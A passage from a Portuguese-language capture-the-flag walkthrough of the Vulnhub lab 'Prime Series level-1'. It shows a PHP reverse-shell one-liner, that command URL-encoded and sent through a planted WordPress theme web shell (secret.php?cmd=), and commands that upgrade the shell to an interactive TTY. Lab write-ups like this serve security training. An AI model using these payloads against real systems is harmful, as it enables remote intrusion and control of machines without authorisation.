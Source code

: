 > php -r '$sock=fsockopen("192.168.150.110",443);exec("/bin/sh -i <&3 >&3 2>&3");'


* Depois utilizamos o Burp Suite para encodar o comando

![](/assets/img/Vulnhub/Prime_Series_level-1/encode-URL.png)


* Vamos deixar a porta escutando na kali e enviar o comando de shell reverso via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%39%32%2e%31%36%38%2e%31%35%30%2e%31%31%30%22%2c%34%34%33%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```

![](/assets/img/Vulnhub/Prime_Series_level-1/shell-reverso.png)




* Melhorando o shell cachorro que recebemos

```bash
script /dev/null
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```


![](/assets/img/Vulnhub/Prime_Series_level-1/melhorando-shell.png)
